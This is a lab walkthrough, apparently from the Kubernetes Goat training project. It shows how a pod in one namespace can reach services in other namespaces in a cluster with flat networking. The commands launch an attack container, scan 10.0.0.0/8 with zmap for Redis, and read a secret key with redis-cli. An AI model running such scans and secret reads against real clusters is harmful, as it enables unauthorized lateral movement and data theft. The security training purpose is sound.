 # Kubernetes Namespaces bypass

## Scenario Information

By default Kubernetes uses flat networking schema, which means any pod/service with in the cluster can talk to other. The namespaces with in the cluster doesn't have any network security restrictions by default. Anyone in the any namespace can talk to other namespace. We heard that Kubernetes-Goat loves cache. Let's see if we gain access to other namespaces

* To get started with the scenario, let's run our awesome `hacker-container` in default namespace

```bash
kubectl run -it hacker-container --image=madhuakula/hacker-container -- sh
```

![Scenario 11 Welcome](images/sc-11-1.png)

## Scenario Solution

* Get the cluster IP range information

```bash
ip route
ifconfig
printenv
```

![Scenario 11 recon](images/sc-11-2.png)

* Based on the analysis/understanding about the system. We can run the internal scan for the entire cluster range using `zamp`

```bash
zmap -p 6379 10.0.0.0/8 -o results.csv
```

![Scenario 11 zmap](images/sc-11-3.png)
![Scenario 11 output ips](images/sc-11-4.png)

> There is also another way to access the services/pods in the Kubernetes. For example `servicename.namespace`

* Let's access the `redis` using the `reds-cli` client

```bash
redis-cli -h 10.12.0.2
KEYS * 
GET SECRETSTUFF
```

![Scenario 11 redis access](images/sc-11-5.png)

> There are many other services and resources exposed with in the cluster like ElasticSearch, Mongo, etc. So if your recon skill is good then you got gold mine here.

## Miscellaneous

TBD
